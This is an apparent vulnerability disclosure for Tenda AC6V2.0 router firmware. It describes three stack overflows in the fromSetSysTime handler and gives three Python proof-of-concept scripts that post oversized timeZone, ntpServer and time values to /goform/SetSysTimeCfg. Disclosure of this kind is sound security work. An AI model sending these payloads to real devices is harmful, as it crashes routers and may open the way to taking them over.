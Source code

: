 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "fromSetSysTime"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102855)

The function contains three separate stack overflow vulnerabilities:

1、**stack overflow** can occur by passing the **`timeZone`** parameter via a POST request, which is then processed by `sscanf` or `strcpy`.

![image-20250619010901848](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250619010901848.png)

2、**stack overflow** can occur by sending the **`ntpServer`** parameter through a POST request, which is subsequently handled by `strcpy`.

![image-20250619012519928](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250619012519928.png)

3、**stack overflow** can occur by supplying the **`time`** parameter via a POST request, leading to an overflow when processed by `sscanf`.

![image-20250619012612501](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250619012612501.png)

poc

```python
#first poc
import requests
def send_payload(url, payload):
    params={
            'timeType':b'sync',
            'timeZone':payload,}
    cookie={'password':'yectgb'}
    response = requests.post(url,cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

payload=b'a'*0x500
url="http://192.168.1.1/goform/SetSysTimeCfg"
send_payload(url, payload)

#second poc
import requests
def send_payload(url, payload):
    params={
            'timeType':b'sync',
            'ntpServer':payload}
    cookie={'password':'yectgb'}
    response = requests.post(url,cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

payload=b'a'*0x500
url="http://192.168.1.1/goform/SetSysTimeCfg"
send_payload(url, payload)  

#third poc
import requests
def send_payload(url, payload):
    params={
            'timeType':b'manual',
            'time':payload,}
    cookie={'password':'yectgb'}
    response = requests.post(url,cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

payload=b'a'*0x500
url="http://192.168.1.1/goform/SetSysTimeCfg"
send_payload(url, payload)
```

![image-20250619013006083](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250619013006083.png)